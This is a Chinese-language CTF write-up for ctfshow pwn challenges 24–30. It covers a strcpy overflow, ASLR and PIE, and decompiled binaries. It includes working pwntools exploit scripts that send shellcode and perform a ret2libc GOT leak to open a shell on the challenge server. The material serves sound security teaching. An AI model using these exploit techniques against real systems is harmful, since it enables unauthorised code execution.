ctfshow函数用到了strcpy()函数，而这个函数是可以发生溢出的！并且src就是我们输入的参数，使我们可控的，并且他没有被限制长度，代表我们可以利用溢出漏洞！
参数足够长溢出之后即可getFlag

pwn24(ret2shellcode)
你可以使用pwntools的shellcraft模块来进行攻击

IDA 32位 仅部分开启RELRO保护 存在一个RWX权限的段，即可读可写可执行的段
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdin, 0, 1, 0);
setvbuf(stdout, 0, 2, 0);
puts((const char *)&unk_80486E0);
puts((const char *)&unk_8048754);
puts((const char *)&unk_80487D0);
puts((const char *)&unk_804885C);
puts((const char *)&unk_80488EC);
puts((const char *)&unk_8048970);
puts((const char *)&unk_8048A04);
puts(" * ************************************* ");
puts((const char *)&unk_8048AC8);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : NX disabled & Has RWX segments ");
puts(" * ************************************* ");
ctfshow(&argc);
return 0;
}反编译没法跟进ctfshow
.text:080484C6 public ctfshow
.text:080484C6 ctfshow proc near ; CODE XREF: main+132↓p
.text:080484C6
.text:080484C6 buf = byte ptr -88h
.text:080484C6 var_4 = dword ptr -4
.text:080484C6
.text:080484C6 ; __unwind {
.text:080484C6 push ebp
.text:080484C7 mov ebp, esp
.text:080484C9 push ebx
.text:080484CA sub esp, 84h
.text:080484D0 call __x86_get_pc_thunk_bx
.text:080484D5 add ebx, 1B2Bh
.text:080484DB sub esp, 4
.text:080484DE push 100h ; nbytes
.text:080484E3 lea eax, [ebp+buf]
.text:080484E9 push eax ; buf
.text:080484EA push 0 ; fd
.text:080484EC call _read ; 调用read函数 将我们写入的读进去
.text:080484F1 add esp, 10h
.text:080484F4 sub esp, 0Ch
.text:080484F7 lea eax, [ebp+buf] ; 将我们输入赋给eax的[ebp+buf]
.text:080484FD push eax ; s
.text:080484FE call _puts
.text:08048503 add esp, 10h
.text:08048506 lea eax, [ebp+buf]
.text:0804850C call eax ; 执行读入的内容
.text:0804850E nop
.text:0804850F mov ebx, [ebp+var_4]
.text:08048512 leave
.text:08048513 retn
.text:08048513 ; } // starts at 80484C6
.text:08048513 ctfshow endppwn文件的NX是关掉的，代表栈可执行。
而开始我们将栈中地址ebp-0x88赋给eax，并在该地址里写入我们输入的东西，最后程序会执行这里边的东西，也就是会执行我们写入的东西，如果我们写入的是shellcode，那么程序也就会执行我们的shellcode！
from pwn import *
io = remote('pwn.challenge.ctf.show', 28127)
# io = process('./../Challenge/ctfshow_pwn/pwn24')
shellcode = asm(shellcraft.sh())
io.sendline(shellcode)
io.interactive()
pwn25(ret2libc)
开启NX保护，或许可以试试ret2libc

int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdin, 0, 1, 0);
setvbuf(stdout, 0, 2, 0);
ctfshow();
logo();
write(0, "Hello CTFshow!\n", 0xEu);
return 0;
}#ctfshow
ssize_t ctfshow()
{
char buf; // [esp+0h] [ebp-88h]
return read(0, &buf, 0x100u);
}通过ctfshow()函数，读入我们输入的字符串，注意看大家，读入的buf是132个长度，而read()函数限制我们读入的长度位0x100，也就是256个长度。代表肯定会溢出，这个地方就是利用点。
具体攻击手法为：ret2libc
即先找到栈溢出漏洞，通过write函数泄露 write 函数的真实地址，根据泄露的 write 函数地址，使用 LibcSearcher 来搜索 libc 库中相应的函数地址和字符串地址，获取 system 函数和”/bin/sh” 字符串的地址。构造新的 payload，使用泄露的 system 函数和 “/bin/sh” 字符串的地址来进行get shell
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show', 28288)
#io = process('./../Challenge/ctfshow_pwn/pwn25')
elf = ELF('./../Challenge/ctfshow_pwn/pwn25')
offset = 0x88+0x4 # read_buf
main = elf.sym['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = cyclic(offset)+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendline(payload)
puts_addr = u32(io.recv()[0:4])
print(hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload = cyclic(offset)+p32(system)+cyclic(4)+p32(bin_sh)
io.sendline(payload)
io.interactive()
pwn26(ASLR)

ASLR（Address Space Layout Randomization）是一种操作系统级别的安全保护机制，旨在增加软件系统的安全性。它通过随机化程序在内存中的布局，使得攻击者难以准确地确定关键代码和数据的位置，从而增加了利用软件漏洞进行攻击的难度。
开启不同等级会有不同的效果：
- 内存布局随机化： ASLR的主要目标是随机化程序的内存布局。在传统的内存布局中，不同的库和模块通常会在固定的内存位置上加载，攻击者可以利用这种可预测性来定位和利用漏洞。ASLR通过随机化这些模块的加载地址，使得攻击者无法准确地确定内存中的关键数据结构和代码的位置。
- 地址空间范围的随机化： ASLR还会随机化进程的地址空间范围。在传统的地址空间中，栈、堆、代码段和数据段通常会被分配到固定的地址范围中。ASLR会随机选择地址空间的起始位置和大小，从而使得这些重要的内存区域在每次运行时都有不同的位置。
- 随机偏移量： ASLR会引入随机偏移量，将程序和模块在内存中的相对位置随机化。这意味着每个模块的实际地址是相对于一个随机基址偏移的，而不是绝对地址。攻击者需要在运行时发现这些偏移量，才能准确地定位和利用漏洞。
- 堆和栈随机化： ASLR也会对堆和栈进行随机化。堆随机化会在每次分配内存时选择不同的起始地址，使得攻击者无法准确地预测堆上对象的位置。栈随机化会随机选择栈帧的起始位置，使得攻击者无法轻易地覆盖返回地址或控制程序流程。
在Linux中，ALSR的全局配置/proc/sys/kernel/randomize_va_space有三种情况：
0表示关闭ALSR
1表示部分开启（将mmap的基址、stack和vdso页面随机化）
2表示完全开启
| ALSR | Executable | PLT | Heap | Stack | Shared libraies |
|---|---|---|---|---|---|
| 0 | × | × | × | × | × |
| 1 | × | × | × | √ | √ |
| 2 | × | × | √ | √ | √ |
| 2+PIE | √ | √ | √ | √ | √ |
直接运行
Here is your ASLR level:
2
If the result is 0, then you get the correct flag!
If not,you will get a fake flag!
flag is :ctfshow{0x400687_0x400560_0x1df12a0_0x7d97260e3680}
打开IDA看一下
int __cdecl main(int argc, const char **argv, const char **envp)
{
void *ptr; // ST00_8
void *v4; // ST08_8
void *v5; // ST00_8
ptr = malloc(4uLL);
v4 = dlopen("/lib/x86_64-linux-gnu/libc.so.6", 258);
puts(s);
puts(asc_4008F0);
puts(asc_400970);
puts(asc_400A00);
puts(asc_400A90);
puts(asc_400B18);
puts(asc_400BB0);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : Please confirm your ASLR level first ! ");
puts(" * ************************************* ");
puts("Here is your ASLR level:");
system("cat /proc/sys/kernel/randomize_va_space");
puts("If the result is 0, then you get the correct flag!");
puts("If not,you will get a fake flag!");
printf("flag is :ctfshow{%p", main, ptr);
printf("_%p", system);
printf("_%p", v5);
printf("_%p", v4);
puts("}");
free(v5);
return 0;
}发现会打开/proc/sys/kernel/randomize_va_space 所以只需要把他值改为0即可 因为这里没有使用提供的虚拟机环境 所以flag不对
ctfshow{0x400687_0x400560_0x603260_0x7ffff7fd64f0}
pwn27
int __cdecl main(int argc, const char **argv, const char **envp)
{
void *ptr; // ST00_8
void *v4; // ST08_8
void *v5; // ST00_8
ptr = malloc(4uLL);
v4 = dlopen("./libc-2.27.so", 258);
puts(s);
puts(asc_4008D0);
puts(asc_400950);
puts(asc_4009E0);
puts(asc_400A70);
puts(asc_400AF8);
puts(asc_400B90);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : Please confirm your ASLR level first ! ");
puts(" * ************************************* ");
puts("Here is your ASLR level:");
system("cat /proc/sys/kernel/randomize_va_space");
puts("If the result is 0 or 1, then you get the correct flag!");
puts("If not,you will get a fake flag!");
printf("flag is :ctfshow{%p", main, ptr, v4);
printf("_%p", system);
printf("_%p", v5);
puts("}");
free(v5);
return 0;
}改为0或1即可
ctfshow{0x400687_0x400560_0x603260}
pwn28
运行直接给flagctfshow{0x400687_0x400560}
pwn29(PIE)
PIE全称是position-independent executable，中文解释为地址无关可执行文件，该技术是一个针对代码段（.text）、数据段（.data）、未初始化全局变量段（.bss）等固定地址的一个防护技术，如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址，从而不能通过ROPgadget等一些工具来帮助解题。在PIE和ASLR同时开启的情况下，攻击者将对程序的内存布局一无所知，大大
增加了利用难度。然而在增加安全性的同时，PIE也会一定程度上影响性能，因此在大多数操作系统上PIE仅用于一些对安全性要求比较高的程序。

附件是64位elf，丢到IDA里，可以看到强制开启了ASLR的保护模式，之后用checksec命令输出附件的保护信息，最后直接给了flag的明文
pwn30
关闭PIE后 程序的基地址固定，攻击者可以更容易地确定内存中函数和变量的位置。

IDA 32位 部分RELRO开启
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdin, 0, 1, 0);
setvbuf(stdout, 0, 2, 0);
ctfshow(&argc);
puts((const char *)&unk_8048710);
puts((const char *)&unk_8048784);
puts((const char *)&unk_8048800);
puts((const char *)&unk_804888C);
puts((const char *)&unk_804891C);
puts((const char *)&unk_80489A0);
puts((const char *)&unk_8048A34);
puts(" * ************************************* ");
puts((const char *)&unk_8048AF8);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : No Canary found & No PIE ");
puts(" * ************************************* ");
write(0, "Hello CTFshow!\n", 0xEu);
return 0;
}跟进ctfshow
ssize_t ctfshow()
{
char buf; // [esp+0h] [ebp-88h]
return read(0, &buf, 0x100u);
}